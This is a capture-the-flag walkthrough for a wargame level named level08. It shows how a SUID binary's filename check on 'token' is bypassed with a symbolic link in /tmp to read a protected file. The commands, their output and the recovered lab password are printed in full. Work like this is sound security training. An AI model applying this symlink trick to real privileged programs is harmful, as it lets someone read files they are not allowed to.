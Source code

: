 Start by listing the files in the current directory:
```bash
ls
```
Output:
```bash
level08 token
```

The file is an ELF binary. Checking its permissions:
```bash
ls -la level08
```
Output:
```bash
rwsr-s---+ 1 flag08 level08 8617 Mar  5  2016 level08
```
The **SUID bit (`s`) is set**, meaning it runs with `flag08` privileges.

Using `ghidra`, we analyze the binary and find that it contains a check that **prevents access*** to files whose names contain the **string token**. The program attempts to block any file with the word "token" in its name, but we can bypass this restriction by using a **symbolic link**.

```bash
ln -s /home/user/level08/token /tmp/bypass
```

We then execute the level08 binary, passing the symlink (`/tmp/bypass`) as the argument:
```bash
./level08 /tmp/bypass
```
Output:
```bash
quif5eloekouj29ke0vouxean
```
And get the password to log as `flag08`.
We then run `getflag` and get the next flag !